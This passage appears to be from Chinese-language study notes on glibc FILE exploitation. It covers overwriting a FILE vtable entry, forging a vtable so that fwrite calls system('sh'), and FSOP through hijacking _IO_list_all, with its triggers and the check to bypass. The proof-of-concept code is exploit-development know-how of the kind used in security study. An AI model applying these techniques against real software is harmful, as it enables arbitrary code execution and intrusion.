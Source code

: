 劫持手段1-修改vtable指向的内存

```c
#include <stdio.h>
int main(void) {
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("/dev/null","rw");
    vtable_ptr= *(long long*)((long long)fp + 0xd8); //get vtable
    vtable_ptr[7]=0x1234; //xsputn
    printf("call 0x1234"); // 调用xsputn指针
}
```

劫持手段2-修改vtable指针指向我们伪造的vtable

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(void) {
    FILE *fp;
    long long *fake_vtable;
    fp=fopen("/dev/null","rw");
    fake_vtable=malloc(0x40);
    *(long long *)((long long)fp + 0xd8) = fake_vtable;     //vtable offset
    memcpy(fp,"sh",3);
    fake_vtable[7]= &system; //xsputn
    fwrite("call", 4, 1, fp);
}
```



#### FSOP

FSOP(File Stream Oriented Programming)介绍

_IO_FILE 结构会使用_chain 域相互连接形成一个链表，这个链表的头部由_IO_list_all 维护。

FSOP 的核心思想就是劫持_IO_list_all 的值来伪造链表和其中的_IO_FILE 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP 选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all 链表中所有项的文件流，相当于对每个 FILE 调用 fflush，也对应着会调用_IO_FILE_plus.vtable 中的_IO_overflow。

在经典利用手段house of orange的核心就是采用fsop达到利用

FSOP - 如何触发调用？

意义是为了保证数据不丢失，因此在程序执行退出相关代码时，会去调用函数去刷新缓冲区，确保数据被保存。会_IO_flush_all_lockp调用函数的时机包括：

- libc执行abort函数时。
- 程序执行exit函数时。

- 程序从main函数返回时。

FSOP - 绕过检查

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base) 
           || (_IO_vtable_offset (fp) == 0
               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                                    > fp->_wide_data->_IO_write_base))
           )
          && _IO_OVERFLOW (fp, EOF) == EOF)
        result = EOF;
```
